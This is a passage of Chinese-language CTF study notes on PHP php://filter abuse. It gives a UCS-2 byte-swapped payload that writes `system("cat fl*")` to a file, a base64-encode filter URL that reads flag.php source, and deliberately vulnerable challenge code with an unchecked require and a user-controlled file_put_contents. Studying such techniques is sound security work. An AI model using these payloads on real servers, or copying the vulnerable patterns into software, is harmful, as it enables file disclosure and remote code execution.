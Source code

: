   把 Base64 和 Rot13 过滤了，根据 [PHP 支持的字符编码](https://www.php.net/manual/zh/mbstring.supported-encodings.php)，发现 PHP 支持的字符编码还是挺多的，我们这里随便选择一个进行使用

  ```
  GET: ?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php
  POST: contents=?<hp pystsme"(ac tlf"*;)
  ```

  关于代码生成，注意 `ucs-2` 编码的字符串位数一定要是偶数，否则会报错，`ucs-4` 编码的字符串位数一定要是 4 的倍数，否则会报错

  ```php
  <?php 
  echo iconv("UCS-2LE","UCS-2BE",'<?php system("cat fl*");');
  // ?<hp pystsme"(ac tlf"*;)
  ```

  **base64**

  ```php
  # index.php
  <?php
    highlight_file(__FILE__);
    require($_GET['filename']);
  ?>
  ```

  ---


  ```php
  # flag.php
  <?php

  // $flag = 'flag{th14_1s_m3_fl4g}';
  echo '答案在注释里，自己找吧';
  ```

  ==我们可以利用 `php://filter` 伪协议来读取文件内容，需要注意的是，`php://filter` 伪协议如果不指定过滤器的话，默认会解析 PHP 代码，所以我们需要指定 `convert.base64-encode` 过滤器来对文件内容进行编码==

  ```php
  php://filter/read=convert.base64-encode/resource=flag.php
  ```

  **rot13**

  ```php
  <?php
  if(isset($_GET['file'])){
      $file = $_GET['file'];
      $content = $_POST['content'];
      $file = str_replace("php", "???", $file);
      $file = str_replace("data", "???", $file);
      $file = str_replace(":", "???", $file);
      $file = str_replace(".", "???", $file);
      file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
      
  }else{
      highlight_file(__FILE__);
  }
  ```
